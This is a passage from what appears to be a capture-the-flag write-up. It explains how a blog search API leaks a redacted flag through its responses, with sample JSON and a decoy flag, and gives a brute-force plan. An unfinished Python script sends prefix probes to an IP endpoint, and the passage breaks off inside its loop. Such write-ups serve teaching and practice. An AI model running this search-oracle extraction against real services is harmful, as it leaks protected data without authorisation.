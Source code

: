 #### Response when match is found (includes redacted flag):

```json
{
    "results": [
        {
            "id": 3,
            "title": "Not the flag?",
            "content": "Well luckily the content of the flag is hidden so here it is: ************************",
            "author": "admin",
            "date": "2025-05-13"
        },
        {
            "id": 4,
            "title": "Real flag fr",
            "content": "Forget that other flag. Here is a flag: L3AK{Bad_bl0g?}",
            "author": "L3ak Member",
            "date": "2025-06-13"
        }
    ],
    "count": 2,
    "query": "L3A"
}
```

#### Response when no match:

```json
{"results":[],"count":0,"query":"K{X"}
```

> There is also a decoy flag (in `post.id == 4`) that is not redacted. To avoid false positives, we only treat hits containing * as real.

## Exploitation

Armed with our oracle, we brute-force the flag as follows:

1. Establish a baseline of the response content where a hit occurs ('*' in the json)
2. brute-force the first charcter after `known` (query = L3AK{**a**)
3. If the response is a hit, then add one more character (?q=L3AK{a**a**); otherwise try a new one (?q=L3AK{**b**).
4. In the end, a full flag (?q=L3AK{flag_here}) can be leaked.

Like this:
```python
#!/usr/bin/env python3

import string
import requests

URL = 'http://34.134.162.213:17000/api/search'

alphabet = string.printable.strip()
known = 'L3AK{'

print(f"[+] Starting brute-force with prefix: {known}")

while not known.endswith('}'):
    found = False
    for c in alphabet:
        probe = (known + c)[-3:]
        r = requests.post(URL, json={"query": probe})
        data = r.json()

```